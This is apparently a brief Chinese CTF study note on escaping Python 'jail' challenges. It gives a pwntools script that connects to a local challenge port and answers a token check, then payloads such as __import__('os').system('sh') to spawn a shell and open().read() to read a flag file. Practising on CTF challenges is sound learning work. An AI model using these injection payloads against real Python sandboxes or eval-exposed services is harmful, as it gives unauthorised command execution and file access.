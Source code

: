 关键词：jail

nc或python连接入口：
```
from pwn import *

server_ip = '127.0.0.1'
server_port = 26582

connection = remote(server_ip, server_port)

received_data = connection.recv().decode('utf-8')
send_data = received_data[-32:-26] + received_data[-23:-17]

print(received_data)

connection.sendline(send_data.encode('utf-8'))
connection.interactive()
connection.close()
```
一般会给你代码审计，然后连接入口后输入payload。


^
直接高权限命令读
```
__import__('os').system('sh') 返回交互式shell

__import__('os').system('ls -al /tmp')
```

低权限文件读
```
print(open('/tmp/therealflag_b8c7f31438c67cea772d2ea57dc77918').read())
```